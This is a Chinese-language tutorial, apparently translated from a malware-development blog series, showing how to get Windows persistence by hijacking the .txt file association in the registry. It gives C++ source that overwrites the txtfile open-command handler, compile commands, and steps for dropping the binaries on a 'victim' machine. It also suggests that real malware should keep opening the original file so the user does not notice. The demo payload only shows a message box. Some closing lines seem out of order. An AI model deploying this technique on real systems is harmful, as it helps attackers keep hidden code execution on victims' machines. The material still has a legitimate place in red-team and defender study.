









\newpage
\subsection{恶意软件开发：持久化（第 9 部分）——默认文件扩展名劫持（简单的 C++ 示例）}

﷽

{width="80%"}

这篇文章是我自己对一个有趣的恶意软件持久化技巧的研究结果：劫持默认文件扩展名。

### 默认文件关联

例如，当双击一个 `.txt` 文件时，会使用 `notepad.exe` 来打开它。

{width="80%"}

Windows 知道它必须使用 `notepad.exe` 来访问 `.txt` 文件，因为 `.txt` 扩展名（以及许多其他扩展名）在注册表 `HKEY_CLASSES_ROOT` 中被映射到了能够打开这类文件的应用程序。

劫持默认文件关联就可以执行恶意程序。

### 实战示例

我们来劫持 `.txt`。

在这种情况下，`.txt` 扩展名的处理程序由下面列出的注册表项指定：

运行命令：

```powershell
reg query "HKCR\txtfile\shell\open\command" /s
```

{width="80%"}

然后，创建我们的「恶意」应用程序：

```cpp
/*
hack.cpp
evil app for windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;

```

如你所见，逻辑和往常一样非常简单：只是弹出一个 meow-meow 消息框。

下一步，通过下面的脚本修改 `\HKEY_CLASSES_ROOT\txtfile\shell\open\command` 的值数据来劫持 `.txt` 文件扩展名：

```cpp
/*
pers.cpp
windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // command for replace
  // "%SystemRoot%\\system32\\NOTEPAD.EXE %1"
  // malicious app
  const char* cmd = "Z:\\2022-08-26-malware-pers-9\\hack.exe";

  // hijacking logic
  LONG res = RegOpenKeyEx(HKEY_CLASSES_ROOT, (LPCSTR)
  "\\txtfile\\shell\\open\\command", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
  // update key
  RegSetValueEx(hkey, (LPCSTR)"", 0, REG_SZ, (unsigned char*)cmd, 
  strlen(cmd));
  RegCloseKey(hkey);
  }
  return 0;

```

如你所见，在这段源代码中，我们只是把 `%SystemRoot%\system32\NOTEPAD.EXE %1` 替换成了 `Z:\2022-08-26-malware-pers-9\hack.exe`。

### 演示

我们来看看一切的实际运行。

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

生成的 `hack.exe` 需要被投放到受害者的机器上。

然后，编译负责持久化的程序：

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

生成的 `pers.exe` 同样需要被投放到受害者的机器上。

然后直接运行：

```powershell
.\pers.exe
```

{width="80%"}

那么，试着打开一个 `.txt` 文件，例如双击 `test.txt`：

{width="80%"}

{width="80%"}

如你所见，「恶意软件」被执行了。

然后，清理：

```powershell
reg add "HKEY_CLASSES_ROOT\txtfile\shell\open\command" /ve /t REG_SZ /d "%SystemRoot%\system32\NOTEPAD.EXE %1"
```

{width="80%"}

（在真实的恶意软件中）用稍微不同的逻辑来做这件事会是一个好做法，这样受害用户仍然能够打开原始的 `.txt` 文件，但会额外运行恶意活动。

该恶意软件曾在 2019 年一场由身份不明的网络行为者针对克罗地亚政府机构的行动中被使用。

我希望这篇文章能让蓝队成员了解这个有趣的技巧，并为红队成员的武器库增添一件武器。

MITRE ATT&CK: Change Default File Association

编译我们的恶意软件：

完美！:)

这个持久化技巧被 SILENTTRINITY 框架和 Kimsuky 网络间谍组织使用。
